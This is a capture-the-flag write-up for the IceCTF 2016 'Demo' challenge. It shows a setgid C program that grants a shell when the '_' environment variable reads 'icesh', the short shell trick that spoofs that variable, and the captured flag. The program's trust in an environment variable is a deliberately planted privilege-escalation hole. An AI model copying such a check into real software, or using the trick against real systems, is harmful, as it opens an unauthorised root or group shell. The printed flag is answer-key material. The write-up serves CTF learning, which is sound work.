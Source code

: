 Title: IceCTF 2016 - Demo
Date: 2016-08-15 19:18
Category: CTF
Tags: icectf2016 CTF
Slug: icectf-2016-demo
Authors: wumb0

Challenge description:
> I found this awesome premium shell, but my demo version just ran out... can you help me crack it? /home/demo/ on the shell. 
The source for this challenge was provided:
```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <libgen.h>
#include <string.h>

void give_shell() {
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
    system("/bin/sh");
}

int main(int argc, char *argv[]) {
    if(strncmp(basename(getenv("_")), "icesh", 6) == 0){
        give_shell();
    }
    else {
        printf("I'm sorry, your free trial has ended.\n");
    }
    return 0;
}
```
So to get the flag we need to make the _ shell variable equal icesh. The _ shell variable in bash is always set to the program name of the command being run. So I decided to use a different shell to see what would happen.

```sh
sh
ls icesh; /home/demo/demo
cat flag.txt
IceCTF{wH0_WoU1d_3vr_7Ru5t_4rgV}
```

And there we have our flag:
**IceCTF{wH0_WoU1d_3vr_7Ru5t_4rgV}**
